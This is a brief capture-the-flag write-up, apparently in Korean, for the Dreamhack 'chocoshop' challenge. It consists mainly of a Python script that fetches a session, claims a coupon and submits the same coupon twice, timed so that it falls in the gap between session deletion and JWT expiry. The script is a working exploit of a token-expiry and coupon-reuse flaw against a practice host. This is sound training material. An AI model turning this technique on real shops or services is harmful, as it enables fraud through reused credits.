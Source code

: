 
---
# Dreamhack - chocoshop
- 세션은 삭제되었지만 JWT는 만료가 안되는 때가 존재함을 이용함 

```python
import requests as req
import json
import time
import threading

domain = "http://host3.dreamhack.games:13654"


def get_session():
    url = domain + "/session"
    res = req.get(url=url)
    session_json = json.loads(res.text)
    session = session_json["session"]
    return session


def coupon_claim(session):
    url = domain + "/coupon/claim"
    headers = {"Authorization": session}
    res = req.get(url=url, headers=headers)
    coupon_json = json.loads(res.text)
    coupon = coupon_json["coupon"]
    return coupon


def coupon_submit(session, coupon):
    url = domain + "/coupon/submit"
    header = {"Authorization": session, "coupon": coupon}
    res = req.get(url=url, headers=header)
    print(res.text)


if __name__ == "__main__":
    session = get_session()
    print(session)
    coupon = coupon_claim(session)

    coupon_submit(session=session, coupon=coupon)
    time.sleep(44.99)
    coupon_submit(session=session, coupon=coupon)

```